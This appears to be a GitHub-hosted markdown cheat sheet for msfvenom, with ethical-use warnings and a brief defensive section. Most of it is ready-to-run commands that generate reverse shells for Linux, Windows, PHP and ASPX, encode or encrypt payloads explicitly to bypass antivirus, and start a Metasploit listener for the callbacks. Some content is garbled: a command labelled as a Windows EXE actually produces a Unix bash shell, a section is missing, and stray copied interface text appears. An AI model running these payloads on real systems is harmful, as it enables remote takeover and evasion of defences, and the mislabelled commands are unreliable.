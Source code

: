 # 💣 MSFVENOM (PAYLOAD GENERATION - ETHICAL USE ONLY)

> **⚠️ WARNING:**  
> Unauthorized payload deployment is **ILLEGAL**.  
> Always get **written permission** before testing.  
> Use only in **legal environments** (e.g., Hack The Box, TryHackMe).

---

## ✅ MUST-HAVE

- Part of Metasploit:
  ```bash
  sudo apt install metasploit-framework
Legal Use Only: NEVER use on real/unauthorized systems.

🧪 1. BASIC PAYLOAD GENERATION
List all payloads:

msfvenom --list payloads
Linux reverse shell (ELF):

bash
Αντιγραφή
Επεξεργασία
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f elf > shell.elf
Windows reverse shell (EXE):

msfvenom -p cmd/unix/reverse_bash LHOST=<Your_IP> LPORT=4444 -f raw
Base64 (for web delivery):

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f base64
🔐 3. ADVANCED OPTIONS
Encrypt payload (AES):

msfvenom -p windows/x64/meterpreter/reverse_tcp \
LHOST=<Your_IP> LPORT=4444 -f exe --encrypt aes256 \
-o encrypted_shell.exe
Bypass AV (Encoding):

msfvenom -p windows/shell_reverse_tcp \
LHOST=<Your_IP> LPORT=4444 -e x86/shikata_ga_nai \
-f exe > encoded_shell.exe
🌐 4. WEB PAYLOADS
PHP reverse shell:

msfvenom -p php/meterpreter/reverse_tcp \
LHOST=<Your_IP> LPORT=4444 -f raw > shell.php
ASPX shell (for IIS):

msfvenom -p windows/aspx/meterpreter/reverse_tcp \
LHOST=<Your_IP> LPORT=4444 -f aspx > shell.aspx
📡 5. HANDLER SETUP
Start Metasploit listener after payload execution:

msfconsole -q -x "use exploit/multi/handler; \
set PAYLOAD <payload_name>; \
set LHOST <Your_IP>; set LPORT 4444; exploit"
🛡️ 6. DEFENSIVE COUNTERMEASURES
Use Antivirus / EDR solutions (e.g., Defender, CrowdStrike).

Disable unnecessary execution:

Macros

PHP/ASP execution in uploads

Monitor outbound connections to unusual ports.

Reminder:
Tools like MSFvenom are extremely powerful.
Use ethically, or face serious legal consequences.